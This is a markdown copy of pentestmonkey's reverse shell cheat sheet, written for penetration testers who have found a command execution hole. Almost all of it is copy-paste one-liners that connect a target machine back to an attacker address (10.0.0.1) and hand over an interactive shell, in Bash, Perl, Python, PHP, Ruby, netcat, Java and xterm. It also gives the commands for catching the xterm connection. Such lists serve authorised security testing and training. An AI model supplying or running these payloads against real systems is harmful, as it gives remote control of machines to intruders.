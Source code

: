 # Reverse Shell Cheat Sheet

From [pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) / https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet  

If you’re lucky enough to find a command execution vulnerability during a penetration test, pretty soon afterwards you’ll probably want an interactive shell.

If it’s not possible to add a new account / SSH key / .rhosts file and just log in, your next step is likely to be either trowing back a reverse shell or binding a shell to a TCP port.  This page deals with the former.

Your options for creating a reverse shell are limited by the scripting languages installed on the target system – though you could probably upload a binary program too if you’re suitably well prepared.

The examples shown are tailored to Unix-like systems.  Some of the examples below should also work on Windows if you use substitute “/bin/sh -i” with “cmd.exe”.

Each of the methods below is aimed to be a one-liner that you can copy/paste.  As such they’re quite short lines, but not very readable.

## Bash
Some versions of bash can send you a [reverse shell](http://www.gnucitizen.org/blog/reverse-shell-with-bash) / http://www.gnucitizen.org/blog/reverse-shell-with-bash (this was tested on Ubuntu 10.10):
```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```
## PERL
Here’s a shorter, feature-free version of the [perl-reverse-shell](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell) / http://pentestmonkey.net/tools/web-shells/perl-reverse-shell:
```bash
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
There’s also an [alternative PERL revere shell here](http://www.plenz.com/reverseshell) / http://www.plenz.com/reverseshell.

## Python
This was tested under Linux / Python 2.7:
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
## PHP
This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…
```bash
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
If you want a .php file to upload, see the more featureful and robust [php-reverse-shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) / http://pentestmonkey.net/tools/web-shells/php-reverse-shell.

## Ruby
```bash
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## Netcat
Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.
```bash
nc -e /bin/sh 10.0.0.1 1234
```
If you have the wrong version of netcat installed, [Jeff Price points out here](http://www.gnucitizen.org/blog/reverse-shell-with-bash/#comment-127498) / http://www.gnucitizen.org/blog/reverse-shell-with-bash/#comment-127498 that you might still be able to get your reverse shell back like this:
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

## Java
```bash
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
[Untested submission from anonymous reader]

## xterm
One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.
```bash
xterm -display 10.0.0.1:1
```
To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):
```bash
Xnest :1
```
You’ll need to authorise the target to connect to you (command also run on your host):
```bash
xhost +targetip
```
## Further Reading
Also check out [Bernardo’s Reverse Shell One-Liners](http://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html) / http://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html.  He has some alternative approaches and doesn’t rely on /bin/sh for his Ruby reverse shell.
